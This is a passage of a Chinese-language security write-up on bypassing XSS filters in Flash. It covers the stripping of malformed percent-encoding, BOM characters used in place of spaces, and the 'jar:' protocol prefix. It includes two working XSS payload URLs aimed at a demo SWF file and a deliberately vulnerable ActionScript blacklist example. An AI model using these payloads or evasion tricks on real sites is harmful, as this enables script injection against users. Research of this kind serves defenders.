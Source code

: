 (1)flash 会丢弃两个出现在%后面的无效十六进制字符（([⁰-9a-fA-F])），比如：

```
"%X" or "%=" 
```

(2)如果在%后面出现一个有效和一个非有效十六进制字符，就会丢弃三个字符，比如：

```
"%AX" or "%A&" 
```

#### 小记：有时候 ASCII 值大于 127 的一些字符会被转换成问号。当然这是发生在 URL 跳转的时候。除此之外，被编码过的 BOM 字符(“%EF%BB%BF”) 也可以用来替换空格。举个例子来说,我们可以把“alert(1)”写成“alert%EF%BB%BF(1)” 。

最后把这些都组合起来：

```
http://0me.me/demo/xss/xssproject.swf?%#js=al%A#e%Xrt(docum%A#ent.doma%A#in);

http://0me.me/demo/xss/xssproject.swf?%I%R%S%D%%Ljs=loca%Xtion.hr%Yef='jav%Zascri %AXpt:x="<sc%AYript>ale%AZrt(docu%?ment.dom%/ain)</sc%&ript>"' 
```

![2014021816521453755_png.jpg](img/img1_u127_jpg.jpg)

成功了！我使用这个 trick 也绕过了 noscript，不过这个漏洞已经在 2.6.6.8 修复了。

## 0x03 真正的“勇士“jar 协议

* * *

flash 会忽略 jar 协议并让它变成一个透明的协议。换句话来说 `javascript:alert(1)` 和 `jar:javascript:alert(1)` 在 actionscript 中是完全一样的。这意味着我们可以使用这个方法来绕 过一些黑名单的检测。让我们先举一个存在漏洞的例子:

```
varinput:String = root.loaderInfo.parameters.input; // input variable 
vardangerousInput:RegExp = /^\w\*script:.\*/i; // to cover javascript: and vbscript: protocols! 
if(!dangerousInput.test(input)) 
{ 
    // Safe to go?!!! --> No! What about "jar:javascript:"? 
    navigateToURL(newURLRequest(input),"_self"); // redirection 
} 

```
